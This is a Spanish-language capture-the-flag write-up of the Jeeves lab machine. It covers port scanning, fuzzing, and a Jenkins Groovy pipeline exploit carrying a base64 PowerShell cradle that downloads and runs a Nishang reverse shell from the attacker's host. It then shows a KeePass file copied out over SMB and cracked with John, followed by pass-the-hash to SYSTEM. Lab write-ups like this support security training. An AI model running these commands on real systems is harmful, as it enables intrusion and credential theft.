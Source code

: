 ```yaml
---
title: 'CTF - Jeeves WriteUp'
date: '2022-02-12'
tags: ["CTF", "Windows", "PassTheHash", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: 'En este post vamos a resolver un reto CTF que consiste en hackear una máquina llamada Jeeves. La máquina tiene varios puertos abiertos, incluyendo el puerto 80, 135, 445 y 50000. Al escanear los puertos, descubrimos que la máquina es un servidor web con Microsoft IIS y un servidor Jetty. También encontramos una vulnerabilidad en el pipeline de Jenkins, que nos permite ejecutar comandos en el sistema remoto. Con esto, conseguimos obtener un acceso de usuario y escalamos privilegios hasta obtener la flag. ¡Sigue leyendo para descubrir cómo lo hice!'
images: ["/static/images/uploads/ctf-jeeves/Jeeves.webp", "/static/images/uploads/ctf-jeeves/image-17.webp", "/static/images/uploads/ctf-jeeves/image-18.webp", "/static/images/uploads/ctf-jeeves/image-19.webp", "/static/images/uploads/ctf-jeeves/image-20.webp", "/static/images/uploads/ctf-jeeves/image-21.webp", "/static/images/uploads/ctf-jeeves/image-22.webp"]
---
```


![](/static/images/uploads/ctf-jeeves/Jeeves.webp)

Escaneamos puertos con NMAP y ejecutamos un análisis más exhaustivo sobre los puertos abiertos. Omitiré la información no relevante.


```
nmap -p80,135,445,50000 -vvv -sCV -n -Pn 10.10.10.63 -oG targeted
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-02-12T22:04:41
|_  start_date: 2022-02-12T21:50:58
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
Lo primero que observamos es que la firma de smb no es necesaria. A continuación, lo validamos con *crackmapexec*.


```
❯ crackmapexec smb 10.10.10.63
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
```
Estamos ante una máquina Win10 x64 y SMB no está firmado. Esto lo hace potencialmente vulnerable a un ataque de tipo PassTheHash. Continuamos investigando. Entrando en la web y aparece la siguiente imagen.

![](/static/images/uploads/ctf-jeeves/image-17.webp)

Cuando buscas algo, siempre sale la misma ventana de error que no es un error como tal, es un archivo png. No parece que se esté ejecutando nada.

Aplico Fuzzing contra el puerto 80 y el puerto 50000. En este segundo puerto, parece que encuentro una ruta disponible en */askjeeves*.


```
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt "http://10.10.10.63:50000/FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://10.10.10.63:50000/FUZZ
Total requests: 220560
=====================================================================
ID           Response   Lines    Word       Chars       Payload 
=====================================================================
000041607:   302        0 L      0 W        0 Ch        "askjeeves"
```
Accedo a la URL y encuentro un Jenkins de v2.87.

![](/static/images/uploads/ctf-jeeves/image-18.webp)

Encontramos una [vulnerabilidad](https://cxsecurity.com/issue/WLB-2019020120) con el pipeline de Jenkins para esa versión. Hacemos una prueba rápida colocando un comando en la ventana de configuración del pipeline.

![](/static/images/uploads/ctf-jeeves/image-19.webp)

*Es importante seleccionar el Sandbox de Groovy que es quien tiene la vulnerabilidad*.

Ponemos en escucha *tcpdump* y vemos si hay respuesta cuando ejecutamos el pipeline.

![](/static/images/uploads/ctf-jeeves/image-20.webp)

Se acontece la vulnerabilidad. Modificamos el script de arriba para que nos entable una reverse shell.

Para ello, vamos a enviar a la consola de Powershell un código codificado en base64. El código en cuestión es el siguiente.


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/PS.ps1')
```
Esto descargará un script desde nuestro equipo y lo ejecutará en el entorno remoto. Dicho script contiene una reverse shell descargada del repositorio de [Nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) que modificaremos a nuestro gusto.

La forma de codificarlo a base64 pasa por cambiar el encoding a UTF-16LE si queremos tener en consideración a [Microsoft](https://docs.microsoft.com/es-es/powershell/module/microsoft.powershell.core/about/about_character_encoding?view=powershell-7.2). De lo contrario, probablemente no podrá ejecutar nuestro comando.


 En general, Windows PowerShell tiene configurada la codificación UNICODE [UTF-16LE](https://wikipedia.org/wiki/UTF-16) de forma predeterminada.

Para ello, ejecutamos el siguiente código.


```
❯ echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/PS.ps1')"data
❯ cat data | iconv -t utf-16le | xxd
00000000: 4900 4500 5800 2800 4e00 6500 7700 2d00  I.E.X.(.N.e.w.-.
00000010: 4f00 6200 6a00 6500 6300 7400 2000 4e00  O.b.j.e.c.t. .N.
00000020: 6500 7400 2e00 5700 6500 6200 4300 6c00  e.t...W.e.b.C.l.
00000030: 6900 6500 6e00 7400 2900 2e00 6400 6f00  i.e.n.t.)...d.o.
00000040: 7700 6e00 6c00 6f00 6100 6400 5300 7400  w.n.l.o.a.d.S.t.
00000050: 7200 6900 6e00 6700 2800 2700 6800 7400  r.i.n.g.(.'.h.t.
00000060: 7400 7000 3a00 2f00 2f00 3100 3000 2e00  t.p.:././.1.0...
00000070: 3100 3000 2e00 3100 3400 2e00 3200 3100  1.0...1.4...2.1.
00000080: 2f00 5000 5300 2e00 7000 7300 3100 2700  /.P.S...p.s.1.'.
00000090: 2900 0a00                                )...
❯ cat data | iconv -t utf-16le | base64 -w0; echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMQAvAFAAUwAuAHAAcwAxACcAKQAKAA==powershell
```
Copiamos el código final en base64 y lo adjuntamos a nuestro exploit del pipeline de Jenkins.


```
node {
   powershell 'powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMQAvAFAAUwAuAHAAcwAxACcAKQAKAA=='
}
```
Ponemos un servidor en nuestro equipo que acepte la descarga del script y en otra ventana netcat en escucha en el puerto 443.

Ejecutamos el pipeline en Jenkins.

![](/static/images/uploads/ctf-jeeves/image-21.webp)

Recibimos la consola de nuestro lado.


```
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.63] 49685
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins\workspace\test whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins\workspace\test cat C:\Users\kohsuke\Desktop\user.txt    
e323xxxxxxxxxxxxxxxxxxxxxxxxxxx
```
Obtenemos la primera flag y continuamos con el escalado de privilegios.

En la carpeta documentos del usuario, descubrimos un archivo kdbx. Esta extensión pertenece a [KeePass](https://www.file-extension.info/es/format/kdbx).


```
PS C:\Users\kohsuke\Documentsls
CEH.kdbx
```
Para descargarnos el archivo a nuestro equipo, montamos un servidor samba.


```
❯ impacket-smbserver smbFolder $(pwd) -smb2support
```
Y nos copiamos el archivo directamente en nuestro equipo.


```
PS C:\Users\kohsuke\Documentscopy CEH.kdbx \\10.10.14.21\smbFolder\CEH.kdbx
```
Primero obtenemos el hash de la contraseña con *keepass2john*, ejecutamos *[John The Ripper](https://www.openwall.com/john/)* con el diccionario [Rockyou](https://www.quora.com/How-many-passwords-are-in-rockyou-txt#:~:text=The%20rockyou.txt%20that%20comes,2020.2a%20contains%2014%2C442%2C063%20words.) que contiene más de 14 millones de las contraseñas más utilizadas y mostramos los resultados.


```
❯ keepass2john CEH.kdbx  hash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
❯ john -show hash
CEH:mooxxxxx
```
Parece que los resultados han sido positivos. Usamos la contraseña para abrir el archivo *kdbx* en un cliente de KeePass como [KeePassXC](https://keepassxc.org/).

![](/static/images/uploads/ctf-jeeves/image-22.webp)

La entrada seleccionada en la imagen contiene una contraseña que parece ser un hash [NTLM](https://security.stackexchange.com/questions/161889/understanding-windows-local-password-hashes-ntlm) del usuario administrador. Validamos el hash con *crackmapexec*.


```
❯ crackmapexec smb 10.10.10.63 -u "Administrator" -H "e0fbxxxxxxxxxxxxxxxxxxx"
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator e0fbxxxxxxxxxxxxxxxx (Pwn3d!)
```
**Como aparece la palabra (Pwn3d!), confirmamos que el hash es correcto.**

A continuación, ejecutamos *psexec.py* para entablar una shell.


```
❯ psexec.py WORKGROUP/administrator@10.10.10.63 -hashes :e0fbxxxxxxxxxxxxxxxxxxxxxx
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32 whoami
nt authority\system
```
Estamos dentro como usuario Administrator y buscamos la flag.

En el escritorio encontramos un archivo que nos dice que lo que buscamos está en algún otro sitio más profundo.


```
C:\Users\Administrator\Desktop type hm.txt
The flag is elsewhere.  Look deeper.
```
NTFS tiene la posibilidad de almacenar la información en distintos streams de datos. Se puede encontrar más información [aquí](https://www.deepinstinct.com/blog/the-abuse-of-alternate-data-stream-hasnt-disappeared). Para enumerar todos los archivos/streams de archivos se emplea el parámetro /r.

Después, invocamos el comando [more](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/more) de Powershell para ver el siguiente stream de información. 


```
C:\Users\Administrator\Desktop dir /r
 Directory of C:\Users\Administrator\Desktop

11/08/2017  09:05 AM     .
11/08/2017 09:05 AM  ..
12/24/2017 02:51 AM 36 hm.txt
 34 hm.txt:root.txt:$DATA

C:\Users\Administrator\Desktop more  hm.txt:root.txt
afbcxxxxxxxxxxxxxx
```
